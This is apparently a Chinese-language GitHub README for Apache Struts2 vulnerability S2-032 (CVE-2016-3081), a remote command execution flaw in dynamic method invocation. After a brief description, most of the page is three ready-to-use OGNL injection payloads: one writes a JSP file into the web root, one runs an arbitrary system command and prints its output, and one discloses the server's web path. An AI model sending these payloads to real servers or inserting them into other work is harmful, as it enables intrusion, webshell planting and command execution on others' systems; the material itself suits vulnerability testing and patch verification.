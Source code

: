 2016年4月21 Apache Struts2 官方发布了一份安全公告: 服务在开启动态方法调用的情况下可以远程执行任意命令,官方编号 S2-032,CVE编号 CVE-2016-3081

## 漏洞利用流程
客户端请求 ``http://{webSiteIP.webApp}:{portNum}/{vul.action}?method={malCmdStr}``

## POC
### 上传文件
```
method:%23_memberAccess%[email]3d@ognl.OgnlContext[/email]@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23path%3d%23req.getRealPath(%23parameters.pp[0]),new%20java.io.BufferedWriter(new%20java.io.FileWriter(%23path%2b%23parameters.shellname[0]).append(%23parameters.shellContent[0])).close(),%23w.print(%23path),%23w.close(),1?%23xx:%23request.toString&shellname=uptest.jsp&shellContent=UpFile_test&encoding=UTF-8&pp=%2f
```

### 执行命令
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=id&pp=\\A&ppp=%20&encoding=UTF-8
```

### 获取web路径
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest%28%29,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29,%23res.setCharacterEncoding%28%23parameters.encoding[0]%29,%23path%3d%23req.getRealPath%28%23parameters.pp[0]%29,%23w%3d%23res.getWriter%28%29,%23w.print%28%23path%29,1?%23xx:%23request.toString&pp=%2f&encoding=UTF-8
```

## 参考
[Struts2 漏洞分析及如何提前预防](http://my.oschina.net/secisland/blog/668647?fromerr=7rH2lggd#OSC_h4_2)
[WoonYun - Struts2方法调用远程代码执行漏洞](http://drops.wooyun.org/papers/15430)

